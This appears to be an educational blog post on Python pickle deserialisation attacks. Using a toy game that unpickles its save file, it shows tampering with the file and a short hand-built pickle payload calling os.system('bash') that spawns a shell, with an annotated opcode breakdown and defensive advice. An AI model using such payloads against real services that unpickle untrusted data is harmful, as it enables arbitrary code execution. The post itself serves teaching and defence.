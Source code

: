 - 2020-03-08
- Deserialisation Attacks

If you have been programming for any length of time, you are bound to have come across JSON. JSON (JavaScript Object Notation) is a serialisation format for common datatypes. Whenever a service wishes to transfer data while maintaining its structure, it must serialise it to ensure the recieving service is able to interpret the data correctly. For stateless types (e.g. `int`, `float`, `dict`, etc.) we define a format which can be read directly back. However, for stateful types (e.g. file handles, objects, sockets, etc.) we may need to execute a deserialisation stub for the serialised object to appropriately initialise its state.

The Python programming language has two serialisation libraries: `pickle` and `marshal`. The `pickle` library is considerably more popular as `marshal` is highly dependent on your interpreter version. When reading the `pickle` [documentation](https://docs.python.org/3/library/pickle.html) you are greeted with:

```
Warning
The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling.
Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
Consider signing data with hmac if you need to ensure that it has not been tampered with.
Safer serialization formats such as json may be more appropriate if you are processing untrusted data.
See Comparison with json.
```

I will demonstrate the dangers of blindly deserialising data using `pickle`. Imagine you are playing a dungeon crawler then exit midway through.

```console
$ python game.py
kills: 0, deaths: 0, xp: 0
Welcome to the dungeon, player
[1] a Dark Knight approaches!
enter any key to proceed:
[[1]] player attacks Dark Knight dealing 21!
[[2]] Dark Knight attacks player dealing 13!
[[3]] player attacks Dark Knight dealing 19!
[[4]] Dark Knight attacks player dealing 15!
[[5]] player attacks Dark Knight dealing 20!
player killed the Dark Knight!
player gained 100xp!
[2] a Wizar approaches!
enter any key to proceed: ^C
```

However, when you restart the game you notice something.

```console
$ python game.py
loaded savefile
kills: 1, deaths: 0, xp: 100
Welcome to the dungeon, player
[snip]
```

The game preserved the state of your previous playthrough when you abruptly quit. We look at the game's `main` function.

```python
def main() -> None:
    if (game_state := load_recent_save()) is None:
        game_state = empty_game_state()
    else:
        print("loaded savefile")

    [snip]
```

We investigate the `load_recent_save` function.

```python
def load_recent_save() -> GameState:
    try:
        with open(".save", "rb") as f:
            unserialised = pickle.load(f)
    except FileNotFoundError:
        return None

    player = unserialised.player
    player.health = 200
    return GameState(player, Enemy())
```

The game is blindly deserialising the file `.save`. We can inspect this file.

```
00000000: 8004 95bf 0000 0000 0000 008c 085f 5f6d  .............__m
00000010: 6169 6e5f 5f94 8c09 5361 7665 5374 6174  ain__...SaveStat
00000020: 6594 9394 2981 947d 9428 8c09 7469 6d65  e...)..}.(..time
00000030: 7374 616d 7094 8c08 6461 7465 7469 6d65  stamp...datetime
00000040: 948c 0864 6174 6574 696d 6594 9394 430a  ...datetime...C.
00000050: 07e4 0308 1723 3900 21fd 9485 9452 948c  .....#9.!....R..
00000060: 0670 6c61 7965 7294 6800 8c06 506c 6179  .player.h...Play
00000070: 6572 9493 9429 8194 7d94 288c 046e 616d  er...)..}.(..nam
00000080: 6594 8c06 706c 6179 6572 948c 056b 696c  e...player...kil
00000090: 6c73 944b 018c 0664 6561 7468 7394 4b00  ls.K...deaths.K.
000000a0: 8c0a 6578 7065 7269 656e 6365 944b 648c  ..experience.Kd.
000000b0: 0668 6561 6c74 6894 4bc8 8c06 6461 6d61  .health.K...dama
000000c0: 6765 944b 1475 6275 622e                 ge.K.ubub.
```

`pickle` is a binary serialisation format but we can still see some textual data. What if we modify this file?

![bindiff of save files](assets/deserialisation_bindiff.png)

We successfully changed our player's name.

```console
$ python game.py
loaded savefile
kills: 1, deaths: 0, xp: 100
Welcome to the dungeon, haxxed
[1] a Wizar approaches!
```

The way `pickle` works is that it serialises the data and executes the steps involved in grabbing that data back out. What happens if we overwrite these deserialisation steps with our own?

```console
$ printf "cos\nsystem\n(S'bash'\ntR." > .save
$ python game.py
[user@beelzebub]: /tmp/tmp.aLb9xQwYe4>$
```

Here we have spawned a shell. The annotated payload is shown below.

```
(each field has a separating newline)

cos\nsystem <- push os.system to stack
(   <- marker
S 'bash'    <- 'bash' string constant
t   <- build tuple ('bash')
R   <- apply ('bash') to os.module
.   <- stop
```

To construct your own payloads you can reverse engineer the [format](https://github.com/python/cpython/blob/master/Lib/pickletools.py).

What is the takeaway from all of this? Do not deserialise untrusted data - or more broadly: do not blindly accept user data. All properties under user control can and should be treated as if the user will manipulate them maliciously. To defend yourself against this attack, the data could be encrypted using a symmetric key within the game itself although this approach falls into the obfuscation game with reverse engineers. Alternatively, the information could be stored on a trusted remote host and securely transmitted using PKI.

